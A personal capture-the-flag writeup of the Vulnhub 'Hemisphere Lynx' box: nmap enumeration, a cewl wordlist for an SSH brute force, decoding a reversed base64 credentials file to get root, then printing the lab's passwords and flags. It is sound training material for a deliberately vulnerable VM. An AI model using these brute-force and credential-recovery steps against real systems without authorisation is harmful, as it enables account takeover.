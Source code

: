 ```yaml
---
title: Vulnhub - Hemisphere Lynx
description: My writeup on Hemisphere Lynx box.
categories:
 - vulnhub
tags: vulnhub cewl hydra ssh base64
---
```


![](https://i.imgur.com/Dayq2fI.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Hemisphere Lynx**  | 
| Series :      | **Hemisphere**         |
| Difficulty :  | **Easy**             |   
| Release Date :| **1 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [d4t4s3c](https://github.com/d4t4s3c){:target="_blank"}     | 
| Download :    | [Hemisphere Lynx](https://www.vulnhub.com/entry/hemisphere-lynx,577/){:target="_blank"}      | 

## Summary

This was a really easy box, pretty basic stuff perfect to pass your time. We generate a custom wordlist with cewl and we run a brute force attack this way we get the user flag. Root is simply a base64 decoding. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.101                                                                                                                                                               130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00041s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:8F:D2:91 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 20:32 EET
Nmap scan report for lynx.zte.com.cn (192.168.1.101)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 26:21:06:43:f3:27:b0:2f:df:eb:37:c0:26:d7:58:2a (RSA)
|   256 cd:a2:e4:63:31:78:79:a1:56:1d:1d:bd:85:ee:6b:fb (ECDSA)
|_  256 dd:bc:7e:1d:a3:ad:ff:aa:1a:3f:d3:68:a4:42:ea:1b (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title:  Lynx 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```
 
Let's start the enumeration with port 80, i don't understand the language of the text but the box desc says "Brute Forze" so we can simply generate a custom wordlist with `cewl` and run a brute force on SSH.

## Shell as johannes

```
$ cewl http://$ip/ | tee wordlist.txt
```

```
$ ssh johannes@$ip                                                                                                                                                               255 ↵
johannes@192.168.1.101's password: 

johannes@Lynx:~$ whoami;id
johannes
uid=1000(johannes) gid=1000(johannes) grupos=1000(johannes),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

## Shell as root

Under `/Desktop` we can see a hidden creds file:

```
johannes@Lynx:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 root     root     4096 oct  1 13:39 .
drwxr-xr-x 10 johannes johannes 4096 oct  1 21:46 ..
-rw-r--r--  1 root     root       37 oct  1 13:39 .creds
```

It contains a base64 string, let's decode it:

```
johannes@Lynx:~/Desktop$ cat .creds 
MjBLbDdpUzFLQ2FuaU84RFdNemg6dG9vcg==
johannes@Lynx:~/Desktop$ cat .creds | base64 -d
20Kl7iS1KCaniO8DWMzh:toor
```

Seems like reversed, let's reverse it.

```
johannes@Lynx:~/Desktop$ cat .creds | base64 -d | rev
root:hzMWD8OinaCK1Si7lK02
```

Now we can simply switch to user root:

```
johannes@Lynx:~/Desktop$ su - root
Contraseña: 
root@Lynx:~# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root)
```

## Reading the flag(s)

```
root@Lynx:~# cat /root/root.txt 
4xKWoV6QGHTetItzD7mI
root@Lynx:~# cat /home/johannes/user.txt 
uZ8iARX2aiDV1bNz7Dx4
```

One of the BEST vulnhub boxes i ever did.

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"} :blush:

Until next time keep pwning hard! :fire:
